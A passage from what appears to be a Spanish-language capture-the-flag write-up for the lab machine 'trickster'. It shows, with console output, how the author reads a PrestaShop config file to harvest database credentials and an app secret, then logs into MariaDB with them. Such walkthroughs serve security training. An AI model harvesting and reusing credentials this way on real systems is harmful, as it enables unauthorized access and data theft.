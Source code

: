 # User Pivoting
Encontramos las credenciales de acceso a base de datos en `/var/www/prestashop/app/config/parameters.php`
```console
(remote) www-data@trickster:/var/www/prestashop/app/config$ cat parameters.php                                         22:01:41 [39/430]
<?php return array (                                                                                                                    
  'parameters' =>                                                                                                                       
  array (                                                                                                                               
    'database_host' => '127.0.0.1',                                                                                                     
    'database_port' => '',                                                                                                              
    'database_name' => 'prestashop',                                                                                                    
    'database_user' => 'ps_user',                                                                                                       
    'database_password' => 'prest@shop_o',                                                                                              
    'database_prefix' => 'ps_',                                                                                                         
    'database_engine' => 'InnoDB',                                                                                                      
    'mailer_transport' => 'smtp',                                                                                                       
    'mailer_host' => '127.0.0.1',                                                                                                       
    'mailer_user' => NULL,                                                                                                              
    'mailer_password' => NULL,                                                                                                          
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',   
```

Las credenciales son `ps_user:prest@shop_o`

```console
(remote) www-data@trickster:/var/www/prestashop/app/config$ mysql -u ps_user -pprest@shop_o 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38833
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 
```
